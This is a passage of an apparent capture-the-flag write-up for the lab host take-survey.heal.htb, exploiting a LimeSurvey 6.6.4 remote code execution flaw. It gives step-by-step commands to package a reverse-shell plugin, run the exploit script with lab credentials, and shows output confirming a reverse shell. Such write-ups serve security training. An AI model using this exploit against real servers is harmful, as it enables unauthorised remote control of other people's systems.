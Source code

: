 ```bash
git clone https://github.com/N4s1rl1/Limesurvey-6.6.4-RCE.git
cd Limesurvey-6.6.4-RCE
zip -r N4s1rl1.zip config.xml revshell.php
pip install -r requirements.txt
```

### Important!

**Edit `revshell.php`** to insert your IP and port **before** zipping the plugin:

```php
// Example inside revshell.php
$ip = 'YOUR IP HERE';
$port = YOUR PORT HERE;
```

---

## Step 5: Virtual Environment and Dependencies

```bash
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

---

## Step 6: Running the Exploit

```bash
python3 exploit.py http://take-survey.heal.htb ralph 147258369 80
```

Sample output:

```
 _   _ _  _  ____  _ ____  _     _
| \ | | || |/ ___|/ |  _ \| |   / |
|  \| | || |\___ \| | |_) | |   | |
| |\  |__   _|__) | |  _ <| |___| |
|_| \_|  |_||____/|_|_| \_\_____|_|

[INFO] Retrieving CSRF token for login...
[SUCCESS] Login Successful!
[INFO] Uploading Plugin...
[SUCCESS] Plugin Uploaded Successfully!
[INFO] Installing Plugin...
[SUCCESS] Plugin Installed Successfully!
[INFO] Activating Plugin...
[SUCCESS] Plugin Activated Successfully!
[INFO] Triggering Reverse Shell...
[SUCCESS] Reverse Shell Started! Check your listener.
```

---